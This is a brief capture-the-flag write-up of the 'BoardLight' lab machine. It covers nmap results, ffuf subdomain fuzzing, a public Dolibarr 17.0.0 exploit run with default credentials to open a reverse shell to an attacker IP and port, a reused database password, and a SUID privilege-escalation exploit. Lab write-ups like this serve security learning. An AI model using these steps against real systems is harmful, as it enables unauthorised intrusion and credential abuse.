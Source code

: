# nmap scan results

```shell
Nmap scan report for boardlight.htb (10.129.231.37)
Host is up (0.081s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
|_  256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```

> nothing found on the site except the commented endpoint /portfolio.php and board.htb domain
> it seems like it imports files using `include` 

> used ffuf to fuzz for subdomains 

`ffuf -w <wordlist> -u http://board.htb -H "Host: FUZZ.board.htb" -fs 15949`

> found `crm.board.htb` it uses dolibarr v17.0.0, it has a reverse shell [exploit](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253) 
> the site uses default creds admin:admin


> downloaded exploit.py, created an nc listener and executed the exploit, got a shell

`python exploit.py http://crm.board.htb admin admin 10.10.14.78 4444`


> found mysql creds dolibarrowner:serverfun2$2023!!

> password works on larissa user 


> found SUID file with an [exploit](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit) linux-gnu-x86_64-0.23.1

> Finished the machine mostly by following a guide, finding subdomain, creds for the user and privesc